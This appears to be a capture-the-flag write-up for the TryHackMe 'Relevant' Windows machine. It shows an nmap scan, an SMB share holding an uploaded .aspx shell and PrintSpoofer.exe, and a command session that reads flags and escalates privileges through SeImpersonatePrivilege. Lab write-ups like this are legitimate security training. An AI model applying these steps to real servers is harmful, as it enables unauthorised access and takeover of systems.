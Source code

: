 # Relevant

```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ sudo nmap -sC -sV -Pn  10.10.53.236 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 12:26 CDT
Nmap scan report for 10.10.53.236
Host is up (0.20s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE        VERSION
80/tcp   open  http           Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server?
|_ssl-date: 2024-04-24T17:45:11+00:00; +16m07s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-04-24T17:44:35+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-04-23T17:35:34
|_Not valid after:  2024-10-23T17:35:34
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-24T10:44:35-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m08s, deviation: 3h07m51s, median: 16m06s
| smb2-time: 
|   date: 2024-04-24T17:44:33
|_  start_date: 2024-04-24T17:36:32
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.72 seconds

```


```
──(melle㉿tuguldur)-[~/Downloads]
└─$ gobuster dir  -u http://10.10.242.103:49663 -w /usr/share/wordlists/dirb/common.txt -s '200,301' --no-error -t 50
Error: error on parsing arguments: status-codes ("200,301") and status-codes-blacklist ("404") are both set - please set only one. status-codes-blacklist is set by default so you might want to disable it by supplying an empty string.

```


*![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/79f6b167-9027-4b52-83de-d287d4690b49)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/b86807b1-d389-4dff-ab66-8b669bdd1473)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/c42d4371-32ff-4956-adb6-696d6b61c243)


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/fc2c8483-b052-4897-af03-d182e83a4147)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/acb339c2-e2fd-4add-a85a-6fd0ee92d77a)

```
c:\windows\system32\inetsrv>type c:\users\bob\desktop\user.txt
type c:\users\bob\desktop\user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}

```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4189e236-88b4-4fd0-97e2-1a682c8ddbd3)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/1caca648-3172-4c2a-8ff5-7a3c94f0c1bd)

### Privilege Escalation

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/c1cb769a-e689-48a4-8c8a-f5700cdc33ee)


```
smb: \> ls
  .                                   D        0  Wed Apr 24 13:02:09 2024
  ..                                  D        0  Wed Apr 24 13:02:09 2024
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Apr 24 13:02:11 2024
  relevant.aspx                       A     3413  Wed Apr 24 12:49:51 2024

		7735807 blocks of size 4096. 4945046 blocks available

```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/6d188ab8-42c1-4182-9807-7565ca29b502)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/90a7137f-d8fb-4bea-96d0-4bd5f2214860)


* ![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/61069455-b318-4fb2-957b-ed9675f98ab6)
* 
```
d ..
c:\Windows\System32>cd ..
cd ..cd ..
The system cannot find the path specified.

c:\Windows\System32>cd ..
cd ..

c:\Windows>cd /wwwroot
cd /wwwroot
The system cannot find the path specified.

c:\Windows>cd /www
cd /www
The system cannot find the path specified.

c:\Windows>cd www
cd www
The system cannot find the path specified.

c:\Windows>.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -i -c cmd
'.\PrintSpoofer.exe' is not recognized as an internal or external command,
operable program or batch file.

c:\Windows>cd system32\inetsrv>
cd system32\inetsrv>

c:\Windows>.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -i -c cmd
'.\PrintSpoofer.exe' is not recognized as an internal or external command,
operable program or batch file.

c:\Windows>cd c:\windows\system32\inetsrv
cd c:\windows\system32\inetsrv

c:\Windows\System32\inetsrv>.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -i -c cmd
'.\PrintSpoofer.exe' is not recognized as an internal or external command,
operable program or batch file.

c:\Windows\System32\inetsrv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
'PrintSpoofer.exe' is not recognized as an internal or external command,
operable program or batch file.

c:\Windows\System32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\Windows\System32\inetsrv>cd c:\inetpub\wwwroot\nt4wrksv
cd c:\inetpub\wwwroot\nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/f4c7327e-125c-4615-9522-246a0cafeced)
finally i got the root flag
`THM{1f**********************345pv}`


























































